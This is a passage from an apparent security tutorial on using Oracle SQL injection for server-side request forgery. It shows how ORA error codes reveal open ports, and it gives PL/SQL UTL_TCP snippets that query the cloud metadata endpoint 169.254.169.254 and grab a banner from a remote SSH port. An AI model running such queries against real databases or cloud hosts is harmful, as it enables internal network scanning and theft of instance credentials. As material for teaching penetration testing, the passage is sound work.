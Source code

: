 ![](/img/using-sql-injection-to-perform-ssrf-xspa-attacks/19.png)

A `ORA-29276: transfer timeout` shows port is open but no SMTP connection was estabilished while a `ORA-29278: SMTP transient error: 421 Service not available` shows that the port is closed.

#### UTL_TCP

The `UTL_TCP` package and its procedures and functions allow <a href="https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190" target="_blank" rel="noopener noreferrer">TCP/IP based communication with services</a>. If programmed for a specific service, this package can easily become a way into the network or perform full Server Side Requests as all aspects of a TCP/IP connection can be controlled.

The example <a href="https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190" target="_blank" rel="noopener noreferrer">on the Oracle documentation site shows how you can use this package to make a raw TCP connection to fetch a web page</a>. We can simply it a little more and use it to make requests to the metadata instance for example or to an arbitrary TCP/IP service.

```sql
set serveroutput on size 30000;
SET SERVEROUTPUT ON 
DECLARE c utl_tcp.connection;
  retval pls_integer; 
BEGIN
  c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
  retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
  retval := utl_tcp.write_line(c);
  BEGIN
    LOOP
      dbms_output.put_line(utl_tcp.get_line(c, TRUE));
    END LOOP;
  EXCEPTION
    WHEN utl_tcp.end_of_input THEN
      NULL;
  END;
  utl_tcp.close_connection(c);
END;
/
```

![](/img/using-sql-injection-to-perform-ssrf-xspa-attacks/20.png)

```sql
DECLARE c utl_tcp.connection;
  retval pls_integer; 
BEGIN
  c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
  retval := utl_tcp.write_line(c);
  BEGIN
    LOOP
      dbms_output.put_line(utl_tcp.get_line(c, TRUE));
    END LOOP;
  EXCEPTION
    WHEN utl_tcp.end_of_input THEN
      NULL;
  END;
  utl_tcp.close_connection(c);
END;
```
